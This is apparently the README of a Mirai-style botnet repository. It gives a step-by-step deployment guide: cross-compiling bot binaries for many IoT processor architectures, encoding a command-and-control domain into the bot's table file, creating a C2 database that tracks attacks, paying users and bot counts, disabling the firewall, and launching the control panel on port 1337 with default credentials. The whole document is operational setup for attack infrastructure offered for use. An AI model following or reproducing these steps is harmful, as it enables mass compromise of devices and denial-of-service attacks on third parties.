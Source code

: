 # make sure to use centos 7 as your main botnet hosting os
# Copy paste this code and put it all on your terminal all at once: 

yum update -y
yum install epel-release -y
yum groupinstall "Development Tools" -y
yum install gmp-devel -y
ln -s /usr/lib64/libgmp.so.3  /usr/lib64/libgmp.so.10
yum install screen wget bzip2 gcc nano gcc-c++ electric-fence sudo git libc6-dev httpd xinetd tftpd tftp-server mysql mysql-server gcc glibc-static -y

cd /tmp
wget https://dl.google.com/go/go1.13.linux-amd64.tar.gz
sha256sum go1.13.linux-amd64.tar.gz
sudo tar -C /usr/local -xzf go1.13.linux-amd64.tar.gz
export PATH=$PATH:/usr/local/go/bin
export GOROOT=/usr/local/go
export GOPATH=$HOME/Projects/Proj1
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
export GOROOT=/usr/local/go; export GOPATH=$HOME/Projects/Proj1; export PATH=$GOPATH/bin:$GOROOT/bin:$PATH; go get github.com/go-sql-driver/mysql; go get github.com/mattn/go-shellwords
source ~/.bash_profile
go version
go env
cd ~/

mkdir /etc/xcompile
cd /etc/xcompile

wget https://github.com/foss-for-synopsys-dwc-arc-processors/toolchain/releases/download/arc-2017.09-release/arc_gnu_2017.09_prebuilt_uclibc_le_arc700_linux_install.tar.gz
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv5l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2
wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-armv7l.tar.bz2

tar -xf arc_gnu_2017.09_prebuilt_uclibc_le_arc700_linux_install.tar.gz
tar -jxf cross-compiler-i586.tar.bz2
tar -jxf cross-compiler-m68k.tar.bz2
tar -jxf cross-compiler-mips.tar.bz2
tar -jxf cross-compiler-mipsel.tar.bz2
tar -jxf cross-compiler-powerpc.tar.bz2
tar -jxf cross-compiler-sh4.tar.bz2
tar -jxf cross-compiler-sparc.tar.bz2
tar -jxf cross-compiler-armv4l.tar.bz2
tar -jxf cross-compiler-armv5l.tar.bz2
tar -jxf cross-compiler-armv6l.tar.bz2
tar -jxf cross-compiler-armv7l.tar.bz2

rm -rf *.tar.bz2
rm -rf *.tar.gz

mv arc_gnu_2017.09_prebuilt_uclibc_le_arc700_linux_install arc
mv cross-compiler-i586 i586
mv cross-compiler-m68k m68k
mv cross-compiler-mips mips
mv cross-compiler-mipsel mipsel
mv cross-compiler-powerpc powerpc
mv cross-compiler-sh4 sh4
mv cross-compiler-sparc sparc
mv cross-compiler-armv4l armv4l
mv cross-compiler-armv5l armv5l
mv cross-compiler-armv6l armv6l
mv cross-compiler-armv7l armv7l


# Domain (you need a domain on cloudflare )
``` put server ip on the cloudflare dns and make it non proxied ```
``` use the enc.c file to encode your domain // ```
``` compail the enc.c file : "gcc enc.c -o enc" ```
``` use it like that example: my domain is https://example.com >> ./enc string example.com```
``` Copy the string that enc generates and past it on /bot/table.c line: 20 and 21 ```
***    add_entry(TABLE_CNC_DOMAIN, "\x70\x77\x71\x6F\x6D\x2A\x65\x76\x69\x7D\x04", 11); // your domain goes here  ***
***    add_entry(TABLE_SCAN_DOMAIN, "\x70\x77\x71\x6F\x6D\x2A\x65\x76\x69\x7D\x04", 11); // your domain goes here ***
``` change ip on /cnc/main.go line 19 from 0.0.0.0 into your vps ip```
``` change ip on /bot/headers/includes.h line 27 from 0.0.0.0 into your vps ip```


# We will setup the database, run these commands on your terminal:

yum install mariadb-server -y
service mariadb restart

# setup mariadb password
mysql_secure_installation

# Now Login with your mysql pass by running this command:

mysql -u root -p**mypasswordhere**

# Now we will add the database, copy and paste this on your terminal:

CREATE DATABASE vagner;
use vagner;
CREATE TABLE `history` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `user_id` int(10) unsigned NOT NULL,
  `time_sent` int(10) unsigned NOT NULL,
  `duration` int(10) unsigned NOT NULL,
  `command` text NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  PRIMARY KEY (`id`),
  KEY `user_id` (`user_id`)
);
 
CREATE TABLE `users` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(32) NOT NULL,
  `password` varchar(32) NOT NULL,
  `duration_limit` int(10) unsigned DEFAULT NULL,
  `cooldown` int(10) unsigned NOT NULL,
  `wrc` int(10) unsigned DEFAULT NULL,
  `last_paid` int(10) unsigned NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  `admin` int(10) unsigned DEFAULT '0',
  `intvl` int(10) unsigned DEFAULT '30',
  `api_key` text,
  PRIMARY KEY (`id`),
  KEY `username` (`username`)
);
 
CREATE TABLE `whitelist` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `prefix` varchar(16) DEFAULT NULL,
  `netmask` tinyint(3) unsigned DEFAULT NULL,
  PRIMARY KEY (`id`),
  KEY `prefix` (`prefix`)
);
INSERT INTO users VALUES (NULL, 'root', 'elite', 0, 0, 0, 0, -1, 1, 30, '');
exit;

# stting up db infos
go to /cnc/main.go and change 
`const DatabasePass string = "passwordhere"`
line 19 into your database password


# Now your database is complete, we will restart and disable services:

service iptables stop 
service httpd restart  
service mariadb restart

# Alright, we have to compile the bot and screen the cnc server by doing this:

cd ~/
chmod 777 *
sh build.sh

# Run the cnc
screen -dm ./admin

or

screen -S cnc ./admin
then click ctrl + a+d

# connecting to our botnet
download client like putty/mobaxterm/kitty/ubuntu
ex : https://putty.org/
ex on how to connect:
cmon bro you wanna create your own panel and dont know how to use putty?? alr add me on demons_arc

# cnc port
`1337`
# cnc security code
`vagner`
# bot port
`1337`
# bot folder
`/var/www/html/bins`